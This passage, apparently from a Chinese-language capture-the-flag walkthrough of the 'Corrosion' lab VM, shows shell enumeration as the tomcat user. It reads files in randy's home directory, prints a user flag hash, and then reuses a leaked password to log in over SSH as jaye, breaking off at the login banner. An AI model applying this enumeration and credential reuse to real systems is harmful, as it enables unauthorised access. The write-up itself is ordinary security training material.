     ```python
    tomcat@corrosion:/var/spool/cron$ whoami
    tomcat
    tomcat@corrosion:/var/spool/cron$ id
    uid=1001(tomcat) gid=1001(tomcat) groups=1001(tomcat)
    tomcat@corrosion:/var/spool/cron$ uname -a
    Linux corrosion 5.11.0-34-generic #36~20.04.1-Ubuntu SMP Fri Aug 27 08:06:32 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
    ```
    
2. 寻找敏感目录
    - 家目录下存在`jaye`文件夹和`randy`文件夹，其中`jaye`没有访问权限，只能看`randy`的文件夹
        - `note.txt`
            
            ```python
            tomcat@corrosion:/home/randy$ cat note.txt 
            Hey randy this is your system administrator, hope your having a great day! I just wanted to let you know
            that I changed your permissions for your home directory. You won't be able to remove or add files for now.
            
            I will change these permissions later on.
            
            See you next Monday randy!
            嘿 randy 我是你的系统管理员，希望你今天过得愉快！我只是想让你知道
            我更改了你的主目录的权限。你现在无法删除或添加文件。
            
            我稍后会更改这些权限。
            
            下周一见 randy！
            ```
            
        - `randombase64.py`
            
            ```python
            tomcat@corrosion:/home/randy$ cat randombase64.py 
            import base64
            message = input("Enter your string: ")
            message_bytes = message.encode('ascii')
            base64_bytes = base64.b64encode(message_bytes)
            base64_message = base64_bytes.decode('ascii')
            print(base64_message)
            tomcat@corrosion:/home/randy$ 
            ```
            
        - `user.txt`
            
            ```python
            tomcat@corrosion:/home/randy$ cat user.txt
            ca73a018ae6908a7d0ea5d1c269ba4b6
            ```
            
3. 操作了一番还是没找到提权的地方，记得之前给了一串密码`melehifokivai` ，只尝试了randy的用户还有`jaye`账号的没尝试
    
    尝试在`jaye`使用`ssh`登录
    
    ```python
    ssh jaye@192.168.56.6
    jaye@192.168.56.6's password: 
    Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.11.0-34-generic x86_64)
    